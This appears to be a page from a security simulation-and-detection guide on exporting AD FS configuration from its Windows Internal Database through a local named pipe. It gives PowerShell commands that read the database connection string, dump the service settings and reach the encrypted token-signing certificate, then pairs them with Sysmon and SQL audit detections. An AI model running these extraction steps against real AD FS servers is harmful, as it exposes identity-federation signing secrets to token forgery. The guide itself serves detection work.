





Export AD FS Configuration via a Local Named Pipe
Contents
Export AD FS Configuration via a Local Named Pipe#
Locally, the AD FS WID does not have its own management user interface (UI), but one could connect to it via a specific named pipe.
Depending on the WID version, one could use the following named pipes to connect to the AD FS database and query its configuration settings:
WID 2008:
\\.\pipe\MSSQL$MICROSOFT##SSEE\sql\queryWID 2012+:
\\.\pipe\MICROSOFT##WID\tsql\query

Table of Contents#
Preconditions#
Integrity level: medium
Authorization:
Resource: AD FS Database
Identity:
AD FS Service Account
Local Administrator
AD FS Server
Services:
Active Directory Federation Services (ADFSSRV)
Simulation Steps#
Get Database Connection String via WMI Class#
The named pipe information can be obtained directly from the ConfigurationDatabaseConnectionString property of the SecurityTokenService class from the WMI ADFS namespace.
Connect to the AD FS server via the Azure Bastion service as the AD FS service account.
Open PowerShell and run the following commands:
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn

Connect to the Database and Read Configuration#
Use the connection string to connect to the AD FS database (WID) and run a SQL
SELECTstatement to export its configuration settings from theIdentityServerPolicy.ServiceSettingstable.
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings

You can also parse it as an XML object
[xml]$settingsXML = $settings
$settingsXML
From here, you can get to the encrypted token signing certificate
$settingsXMl.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference
Detection#
Detect Named Pipe Connection#
The connection to the AD FS database occurs via the \\.\pipe\microsoft##wid\tsql\query named pipe, and we could monitor for the connection to it with Sysmon Event ID 18 (Pipe Connected).

Azure Sentinel Detection Rules#
Detect AD FS SQL Statement to Export Service Settings#
If we want to monitor for anyone interacting with the WID database via SQL statements, we would need to create a server audit and database audit specification. We can use the Microsot SQL Server PowerShell module to connect to the database and create audit rules.
Create SQL Audit Rules:
On the AD FS server (ADFS01), open PowerShell as Administrator.
Install the SqlServer PowerShell Module.
Install-Module -Name SqlServer
Import-module SqlServer
Create SQL Audit Rules.
Invoke-SqlCmd -ServerInstance '\\.\pipe\microsoft##wid\tsql\query' -Query "
USE [master]
GO
CREATE SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] TO APPLICATION_LOG WITH (QUEUE_DELAY = 1000, ON_FAILURE = CONTINUE)
GO
ALTER SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] WITH (STATE = ON)
GO
USE [ADFSConfigurationV4]
GO
CREATE DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] FOR SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] ADD (SELECT, UPDATE ON OBJECT::[IdentityServerPolicy].[ServiceSettings] BY [public])
GO
ALTER DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] WITH (STATE = ON)
GO
"
Validate SQL Audit rule by running previous simulation steps either as the AD FS service account or local administrator:

Azure Sentinel Hunting Queries#
Output#
AD FS Configuration Settings